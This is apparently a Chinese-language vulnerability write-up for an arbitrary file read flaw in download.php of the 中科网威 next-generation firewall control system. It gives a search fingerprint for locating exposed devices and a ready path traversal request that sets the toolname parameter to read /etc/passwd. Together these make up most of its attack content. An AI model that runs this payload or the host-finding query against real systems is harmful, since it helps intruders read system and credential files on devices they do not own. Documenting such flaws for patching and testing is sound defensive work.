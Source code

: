 # 

# 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

```
中科网威 下一代防火墙控制系统
```

## 网络测绘

```
body="Get_Verify_Info(hex_md5(user_string)."
```

## 漏洞复现

登录页面如下

![](./images/202202162251851.png)

漏洞存在于 download.php

![](./images/202202162251009.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![](./images/202202162251674.png)

